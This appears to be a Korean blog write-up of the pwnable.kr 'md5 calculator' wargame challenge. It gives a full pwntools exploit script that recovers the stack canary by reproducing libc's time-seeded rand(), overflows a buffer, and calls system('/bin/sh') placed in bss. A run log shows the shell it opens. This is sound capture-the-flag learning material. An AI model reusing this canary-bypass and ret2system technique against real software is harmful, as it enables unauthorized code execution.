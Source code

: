 # `Exploit`

```
from pwn import *
from ctypes import *
from ctypes.util import find_library
import base64

system_addr = 0x08048880
bss = 0x0804b0e0

# using c-style random
c = CDLL(find_library('c'))
c.srand(c.time(0))

p = remote('pwnable.kr', 9002)

# pass main function & recv captcha
p.recvuntil('captcha : ')
captcha = p.recvline()[:-1]
p.sendline(captcha)

# leak canary
arr_random = list()
for i in range(8):
    arr_random.append(c.rand())

canary = (int(captcha) - arr_random[4] + arr_random[6] - arr_random[7] - arr_random[2] + arr_random[3] - arr_random[1] - arr_random[5]) & 0xffffffff

# exploit
payload = 'A' * 512
payload += p32(canary)
payload += 'A' * 12
payload += p32(system_addr)
payload += 'A' * 4
payload += p32(bss + len(base64.b64encode(payload)) + 4)
payload = base64.b64encode(payload)
payload += '/bin/sh\x00'

p.sendline(payload)
p.interactive()
```

 자세한 설명은 주석 참조. 그런데 payload에 **ctypes**라는 놈이 껴있다(???). 얘는 c 스타일로 함수라던가 라이브러리를 부를 수 있게 도와주는 모듈이다. 처음알았는데 python과 c가 난수를 발생시키는 방법이 다르다고 한다(ㅎㅎ) 그것도 모르고 완전완전 뻘짓하다가 겨우 알아냈다.

 `canary` 가볍게 패스해주시고, `system@plt`넣어 주시고 `/bin/sh`는 어떻게 넣었냐?? 하면 그냥 bss에 썼다. payload를 입력 받는 변수는 `g_buf`였고, 얘는 `bss`에 있기 때문에 payload 써주고 마지막에 `/bin/sh` 넣어주고 `system`의 인자로 `bss`상의 위치를 잘 전달하면 끝!

```
minibeef@argos-edu:~/pwnable.kr/md5-calculator$ python hash-exploit.py
[+] Opening connection to pwnable.kr on port 9002: Done
[*] Switching to interactive mode
Welcome! you are authenticated.
Encode your data with BASE64 then paste me!
MD5(data) : f9cf9f3de47127de0e922b45a2a33883
$ ls
flag
log
log2
md5calculator
super.pl
$ cat flag
```